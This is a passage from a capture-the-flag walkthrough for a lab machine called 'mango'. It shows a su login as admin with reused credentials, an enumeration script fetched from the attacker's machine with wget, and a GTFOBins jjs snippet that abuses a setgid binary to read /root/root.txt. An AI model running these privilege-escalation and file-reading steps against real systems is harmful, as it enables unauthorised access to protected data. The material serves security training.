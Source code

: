 ```sh
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mango:x:1000:1000:mango:/home/mango:/bin/bash
admin:x:4000000000:1001:,,,:/home/admin/:/bin/sh
mongodb:x:111:65534::/home/mongodb:/usr/sbin/nologin
```
Since there is ***admin** username in the box. lets try `su - admin` and the creds found earlier.
```sh
mango@mango:~$ su - admin
      
Password: 
      
$ whoami
      
admin
      
$ 
 ``` 

Nice we got in with admin and it looks like admin have **user.txt** in home directory.
Now we should run linux enumeration script such as [**LinEnum.sh**](https://github.com/rebootuser/LinEnum), but we have to download it in our machine first, then move the script to mango box with following commands.
```sh
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
python3 -m http.server 80
```

in mango box we can use **wget** also to download it from our machine
```sh
$ wget http://10.10.YOUR.IP/LinEnum.sh
$ chmod +x LinEnum.sh
```
and run the script `./LinEnum.sh`


# Privilege Escalation & Root Own
Looking at the output from **LinEnum.sh** we see that there is **SGID** (Set Group ID) binary named '**jjs**' looks vulnerable.
Let me introduce you to a great webpage [GTFObin](https://gtfobins.github.io/) that makes binary exploitation much easier. Search for jjs and you can see many methods of how to abuse SGID on **jjs**.
Here is one way of doing that, will just read the root.txt from root home directory.
```sh
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | jjs
```
